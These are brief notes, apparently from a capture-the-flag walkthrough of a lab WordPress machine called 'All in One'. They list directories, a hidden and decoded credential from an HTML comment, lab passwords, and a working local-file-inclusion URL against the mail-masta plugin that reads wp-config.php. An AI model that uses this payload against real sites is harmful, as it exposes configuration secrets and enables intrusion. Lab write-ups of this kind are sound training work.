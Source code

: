 
# All in One

http://10.10.20.111/wordpress/




## Directorios
/wordpress
/hackathons

http://10.10.20.111/wordpress/
elyana
 
 
view-source:http://10.10.20.111/hackathons
!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
Viginere Decoded> R@esth@123


http://10.10.251.7/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

elyana
H@ckme@123


cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght



